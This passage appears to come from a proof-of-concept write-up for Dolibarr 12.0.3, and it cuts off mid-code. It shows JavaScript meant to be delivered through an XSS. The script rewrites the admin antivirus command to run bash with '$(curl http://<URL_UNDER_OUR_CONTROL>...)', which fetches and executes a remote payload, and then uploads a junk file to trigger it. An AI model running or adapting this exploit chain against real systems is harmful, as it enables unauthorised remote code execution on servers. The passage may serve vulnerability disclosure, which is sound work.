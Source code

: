 ## Combine an XSS and this feature

### Change binary and parameters

First change the binary and the parameters:

```js
function changeBinary() {
    var xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr1.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr1.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
    xhr1.withCredentials = true;
    var body1 = "token=%242y%2410%24oi7TOu6vwFc1h1h87wNyNuT%2Fd0lH3cXUX5NpvzQ%2FwPZyGpKOrIW4G&action=updateform&MAIN_UPLOAD_DOC=2048&MAIN_UMASK=0664&MAIN_ANTIVIRUS_COMMAND=bash&MAIN_ANTIVIRUS_PARAM=-c+%22%24%28curl+http%3A%2F%2F<URL_UNDER_OUR_CONTROL>%3A<RELATED_PORT>%2Fpoc.txt%29%22&button=Modifier";
    var aBody1 = new Uint8Array(body1.length);
    for (var i = 0; i < aBody1.length; i++)
        aBody1[i] = body1.charCodeAt(i); 
    xhr1.send(new Blob([aBody1]));
}
```

### Upload junk file

Then upload a junk file to trigger the binary:

```js
function triggerBinary() {
    var xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr2.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr2.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr2.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------38749762618930241634203718874");
    xhr2.withCredentials = true;
    var body2 = "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"token\"\r\n" + 
        "\r\n" + 
        "$2y$10$pnXTTqQ7R1h2epVIAd3yce83Jh6n1eV.ul59VligSe0MJ0W/grGPe\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_dir\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_id\"\r\n" + 
        "\r\n" + 
        "0\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortfield\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortorder\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"max_file_size\"\r\n" + 
```